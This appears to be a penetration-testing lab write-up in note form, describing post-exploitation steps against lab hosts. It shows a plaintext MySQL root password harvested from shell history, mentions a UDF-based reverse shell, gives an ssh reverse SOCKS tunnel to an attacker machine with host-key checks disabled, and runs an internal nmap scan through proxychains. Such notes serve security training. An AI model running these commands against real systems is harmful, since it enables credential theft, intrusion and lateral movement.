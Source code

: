 1. MySQL root and password was retrieved from `~/.bash_history` root from Ajla
2. Use mysql root credentials to connect to mysql server
   
``` 
mysql -u root -pBmDu9xUHKe3fZi3Z7RdMBeb --host=127.0.0.1 --port=13306
```
   
3. Use User Defined Functions ([[udf]]) exploit to establish a reverse shell
> [!info] 
> Using our reverse shell, we checked on [[mounted-shares]] using `cat /etc/fstab`, and we found out that a share is mounted from the `10.5.5.20` host.
> 
>  Also, a powershell script [[system_report.ps1]] was found inside `/mnt/Scripts` containing credentials of a domain user named `alex`
   
4. Generate key-pair and add public key to Kali
5. Set up a dynamic port forward (SOCKS) from Zora to Kali using port 1080
   
```
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@KALI_IP
```

> [!info] 
> `kali@kali:~$ proxychains nmap --top-ports=20 -sT -Pn 10.5.5.20`  shows that port 3389 (RDP) is open.
> 
> 
